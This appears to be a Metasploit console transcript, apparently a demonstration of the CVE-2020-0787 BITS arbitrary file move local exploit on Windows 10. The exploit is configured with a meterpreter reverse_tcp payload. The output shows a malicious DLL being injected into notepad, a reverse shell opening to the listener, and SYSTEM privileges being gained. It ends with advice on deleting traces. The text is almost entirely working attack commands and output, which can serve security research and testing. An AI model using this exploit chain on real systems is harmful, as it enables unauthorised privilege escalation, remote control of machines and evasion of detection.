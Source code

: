 ```
   SESSION        3                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.22.176.1     yes       The listen address (an interface may be specified)
   LPORT     5530             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set SESSION 4
SESSION => 4
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > exploit

[*] Started reverse TCP handler on 172.22.176.1:5530
[*] Step #1: Checking target enviroment...
[*] Step #2: Generating the malicious DLL...
[*] Payload DLL is 5120 bytes long
[*] Step #3: Loading the exploit DLL to run the main exploit...
[*] Launching notepad to host the exploit...
[+] Process 6884 launched.
[*] Reflectively injecting the exploit DLL into 6884...
[*] Injecting DLL into 6884...
[*] DLL injected. Executing injected DLL...
[*] Sleeping for 60 seconds to allow the exploit to run...
[*] Step #4: Attempting to start the USO service to trigger the payload...
[*] Launching notepad to host the exploit...
[+] Process 3188 launched.
[*] Remember to migrate to another SYSTEM process, then find the PID of usocoreworker.exe and delete it.
[*] Finally, delete the file at C:\Windows\System32\WindowsCoreDeviceInfo.dll
[*] Also be sure to delete the most recently created directory under C:\Users\test\AppData\Local\Temp!
[*] Sending stage (201283 bytes) to 172.22.182.71
[*] Meterpreter session 5 opened (172.22.176.1:5530 -> 172.22.182.71:49860) at 2020-06-08 12:31:23 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-DSPF8I1
OS              : Windows 10 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 5...
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > sessions -i
sessions -i 4  sessions -i 5
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > sessions -i 4
[*] Starting interaction with 4...

```